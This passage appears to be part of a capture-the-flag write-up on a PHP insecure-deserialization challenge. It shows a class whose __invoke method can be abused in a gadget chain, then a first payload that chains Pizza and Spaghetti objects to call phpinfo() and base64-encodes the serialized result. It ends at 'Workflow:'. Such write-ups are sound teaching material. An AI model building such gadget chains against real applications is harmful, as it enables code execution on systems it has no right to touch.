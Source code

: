 ### 3. IceCreamModel (IceCream)

The IceCream class uses the `__invoke()` magic method. This method is triggered when an object is treated like a function:
```php
class IceCream {
    public $flavors;
    public $topping;
    public function __invoke() {
        foreach ($this->flavors as $flavor) {
            echo $flavor;
        }
    }
}
```
Key note:

The `__invoke` method performs a `foreach` loop on the `$flavors` property.
If `$flavors` is an object (e.g., an iterator), we can control its behavior when iterated.
This can be exploited when combined with other models.

---


## Step 3: Crafting the Payloads

With a clear understanding of how these models interact, we now craft serialized payloads to exploit the application.

---
### Payload 1: Triggering phpinfo()

To test if deserialization works and the Pizza + Spaghetti chain can execute functions, we create the following payload:

```php
class Spaghetti {
    public $sauce = "phpinfo";

    public function __get($tomato) {
        ($this->sauce)();  // Calls `phpinfo()`
    }
}

class Pizza {
    public $size;

    public function __construct() {
        $this->size = new Spaghetti();  // Assigns a `Spaghetti` object to `$size`
    }

    public function __destruct() {
        echo $this->size->what;  // Triggers the `__get` method
    }
}

$obj = new Pizza();
echo base64_encode(serialize($obj));
```
Workflow:
